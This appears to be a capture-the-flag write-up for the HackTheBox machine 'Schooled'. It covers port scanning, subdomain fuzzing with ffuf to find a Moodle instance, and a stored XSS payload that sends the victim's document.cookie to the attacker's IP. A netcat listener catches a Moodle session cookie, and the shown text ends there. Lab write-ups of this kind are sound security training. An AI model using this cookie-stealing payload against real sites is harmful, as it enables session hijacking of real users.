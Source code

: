 # Schooled

IP : 10.10.10.234

## nmap 
|Port|service|
|---|---|
|22|ssh|
|80|http|

The website it hosting a site for a school,  lets see if we can find something interresting, lets start with fuzzing sub domains. 

```bash
ffuf -c -w /usr/share/dnsrecon/subdomains-top1mil-5000.txt -u http://schooled.htb -H "Host: FUZZ.schooled.htb" -fw 5338
```

It look like we found moodle a common tools used by schools. lets add that to our hosts file.
Start by creating a account, looking around we see that the only course we can sign yourself up for is math, so lets do that, in here we see a post from Manuel Phillips about setting our MoodleNet.

The post is a hint to use the moodleNet as our exploit, 
lets try doing some xss.

````
<script>new Image().src="http://10.10.14.200/bogus.php?output="+document.cookie;</script>

````

Start netcat listner.
```bash
nc -lnvp 80
```

After a few miniutes we get the session key. 
MoodleSession=tvarc4lrpk50rfjkpbkvoev4j8 